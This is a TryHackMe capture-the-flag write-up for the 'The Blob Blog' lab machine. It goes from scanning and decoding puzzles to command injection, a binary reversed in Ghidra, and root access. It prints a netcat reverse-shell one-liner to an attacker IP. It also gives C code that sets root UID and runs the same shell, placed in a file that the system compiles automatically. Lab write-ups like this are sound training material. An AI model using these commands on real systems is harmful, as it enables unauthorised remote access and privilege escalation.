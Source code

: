 ```yaml
---
title: The-Blob-Blog TryHackMe Writeup
tags: [writeup,tryhackme,linux,steghide,reversing,brainfuck]
style: border
color: success
description: ""
---
```



![](https://raw.githubusercontent.com/m3n0sd0n4ld/m3n0sd0n4ld.github.io/main/_posts/The-Blob-Blog/1.png)

## Scanning
We scan with **nmap** all ports with scripts and versions.

![](https://raw.githubusercontent.com/m3n0sd0n4ld/m3n0sd0n4ld.github.io/main/_posts/The-Blob-Blog/2.png)

## Enumeration
We access the website, we find the default Apache Ubuntu page. 

![](https://raw.githubusercontent.com/m3n0sd0n4ld/m3n0sd0n4ld.github.io/main/_posts/The-Blob-Blog/3.png)

We find in the source code a text encoded in "*base64*".

![](https://raw.githubusercontent.com/m3n0sd0n4ld/m3n0sd0n4ld.github.io/main/_posts/The-Blob-Blog/4.png)

We decode the text and get as a result another one, this time it is encoded in "*brainfuck*".

![](https://raw.githubusercontent.com/m3n0sd0n4ld/m3n0sd0n4ld.github.io/main/_posts/The-Blob-Blog/5.png)

We decode the text, it seems to give us a "*hint*" to perform port knocking and discover some new service.

![](https://raw.githubusercontent.com/m3n0sd0n4ld/m3n0sd0n4ld.github.io/main/_posts/The-Blob-Blog/6.png)

We download the **[knock](https://github.com/grongor/knock)** tool and use the port sequence mentioned in the hint. 
After finishing, we do a new nmap and find two new ports (*21, 8080 and 445*).

![](https://raw.githubusercontent.com/m3n0sd0n4ld/m3n0sd0n4ld.github.io/main/_posts/The-Blob-Blog/7.png)

Using **dirsearch** on port *8080 web service*, we found several interesting paths to a blog.

![](https://raw.githubusercontent.com/m3n0sd0n4ld/m3n0sd0n4ld.github.io/main/_posts/The-Blob-Blog/8.png)

The credentials are tested in the authentication panel, but they do not work. We try to access through the **FTP** service and they do work.

In the **FTP** there is only one *photo* that could contain stego, but there is nothing else interesting (at the moment).

![](https://raw.githubusercontent.com/m3n0sd0n4ld/m3n0sd0n4ld.github.io/main/_posts/The-Blob-Blog/9.png)

Again, we launched **nmap** to check software versions of the new ports. We found that *port 445* (normally SMB) is an *HTTP service*!!!!

![](https://raw.githubusercontent.com/m3n0sd0n4ld/m3n0sd0n4ld.github.io/main/_posts/The-Blob-Blog/10.png)

We access the web resource through port 445, in the source code we find some credentials.

![](https://raw.githubusercontent.com/m3n0sd0n4ld/m3n0sd0n4ld.github.io/main/_posts/The-Blob-Blog/11.png)

We launch the **dirsearch** tool again on the new resource and find a directory called *"/user"* which provides us with a private *SSH key*.

![](https://raw.githubusercontent.com/m3n0sd0n4ld/m3n0sd0n4ld.github.io/main/_posts/The-Blob-Blog/12.png)

#### Evidence of SSH Private key

![](https://raw.githubusercontent.com/m3n0sd0n4ld/m3n0sd0n4ld.github.io/main/_posts/The-Blob-Blog/13.png)

Now with the previously found password, we extract the text file that contains the previous image, it hides a path and credentials.

![](https://raw.githubusercontent.com/m3n0sd0n4ld/m3n0sd0n4ld.github.io/main/_posts/The-Blob-Blog/14.png)

We access the web path that hid the text file found, it seems to give us a clue and sign a user.

![](https://raw.githubusercontent.com/m3n0sd0n4ld/m3n0sd0n4ld.github.io/main/_posts/The-Blob-Blog/15.png)

We tried the credentials, but they do not work. The **hint** left a word at the end of the text, this made me think that maybe they were encoded or encrypted, so I tried with *vigenère* and it worked!

![](https://raw.githubusercontent.com/m3n0sd0n4ld/m3n0sd0n4ld.github.io/main/_posts/The-Blob-Blog/16.png)

Enter your credentials and you have access to the blog.

![](https://raw.githubusercontent.com/m3n0sd0n4ld/m3n0sd0n4ld.github.io/main/_posts/The-Blob-Blog/17.png)

## Exploitation

We see that from the form field we are able to execute system commands.

![](https://raw.githubusercontent.com/m3n0sd0n4ld/m3n0sd0n4ld.github.io/main/_posts/The-Blob-Blog/18.png)

#### Result

![](https://raw.githubusercontent.com/m3n0sd0n4ld/m3n0sd0n4ld.github.io/main/_posts/The-Blob-Blog/19.png)

```
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.11.30.149 443 >/tmp/f
```
#### Reverse shell

![](https://raw.githubusercontent.com/m3n0sd0n4ld/m3n0sd0n4ld.github.io/main/_posts/The-Blob-Blog/20.png)

We do a little reconnaissance, we try *two images* of two puppies, we test to see if they contain any information with **steghide** (without password) and one of them shows us a cipher text.

![](https://raw.githubusercontent.com/m3n0sd0n4ld/m3n0sd0n4ld.github.io/main/_posts/The-Blob-Blog/21.png)

No comment....

![](https://raw.githubusercontent.com/m3n0sd0n4ld/m3n0sd0n4ld.github.io/main/_posts/The-Blob-Blog/22.png)

We tested the passwords found with the two users and one of them works with the user *"bob"*.

![](https://raw.githubusercontent.com/m3n0sd0n4ld/m3n0sd0n4ld.github.io/main/_posts/The-Blob-Blog/23.png)

We found the rare "*blogFeedback*" binary, downloaded it and analyzed it with "**Ghidra**".

![](https://raw.githubusercontent.com/m3n0sd0n4ld/m3n0sd0n4ld.github.io/main/_posts/The-Blob-Blog/25.png)

We see that the binary asks for a numerical sequence being less than 7 digits and that it executes a shell with the user *UID/GID 1000:1000 (bobloblaw)*.

![](https://raw.githubusercontent.com/m3n0sd0n4ld/m3n0sd0n4ld.github.io/main/_posts/The-Blob-Blog/26.png)

We put the sequence of the *6 digits less than 7*, we see that we already have shell as the user "*bobloblaw*", we look for the flag and read it.

![](https://raw.githubusercontent.com/m3n0sd0n4ld/m3n0sd0n4ld.github.io/main/_posts/The-Blob-Blog/27.png)

## Privilege Escalation

We run "*sudo -l*" and we see that we have access to two binaries with *SUDO*.

![](https://raw.githubusercontent.com/m3n0sd0n4ld/m3n0sd0n4ld.github.io/main/_posts/The-Blob-Blog/28.png)

I'm trying to play around with these binaries, but I can't get anything...There is a rather annoying message that keeps popping up on the screen. We launch the **pspy64** tool and see what is running.

![](https://raw.githubusercontent.com/m3n0sd0n4ld/m3n0sd0n4ld.github.io/main/_posts/The-Blob-Blog/30.png)

``` c
#include <stdio.h>
#include <stdlib.h>
#include <sys/types.h>
#include <unistd.h>
int main(int argc, char **argv)
{
setreuid(0,0);
system("/bin/sh rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.11.30.149 443 >/tmp/f");
return(0);
}
```
We create a file in **C** with our reverse shell, replace it with the legitimate one and wait for it to compile and run on the victim machine... We receive a connection as the *root user* ;)

![](https://raw.githubusercontent.com/m3n0sd0n4ld/m3n0sd0n4ld.github.io/main/_posts/The-Blob-Blog/31.png)




